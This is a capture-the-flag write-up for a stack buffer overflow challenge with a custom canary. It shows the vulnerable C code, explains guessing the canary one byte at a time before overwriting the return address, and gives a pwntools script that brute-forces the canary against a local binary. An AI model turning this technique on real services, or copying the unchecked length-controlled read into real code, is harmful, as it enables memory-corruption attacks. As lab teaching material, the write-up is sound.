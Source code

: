 ```c
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("*** Stack Smashing Detected *** : Canary Value Corrupt!\n");
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  int i;
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

As you can see, we have a clear buffer overflow with the `read` call; however, the `canary` buffer is placed between our input buffer and the return address and it is checked first before the function returns. This means that we have to overwrite the return address of the function without changing the content of the `canary` buffer. It is possible to brute force the canary as it is only 4 bytes long; however, a more efficient way to do it is to guess the canary one byte at a time which reduces the number of tries even more. After guessing the canary, we can then proceed to change the return address and get the flag.

Here is the python script that does the exact same thing as I just described:

```python
from pwn import *

# context.log_level = 'debug'

winAddr = 0x080486eb

canary = ''
for i in range(1, 5):
  for e in range(256):
    sh = process('./vuln')
    sh.sendlineafter('> ', str(32+i))
    sh.sendafter('> ', 'a'*32+canary+chr(e))
    output = sh.recvall()
    if 'Stack' not in output:
      print output
      canary += chr(e)
      break
print canary

# canary = 'abcd'
```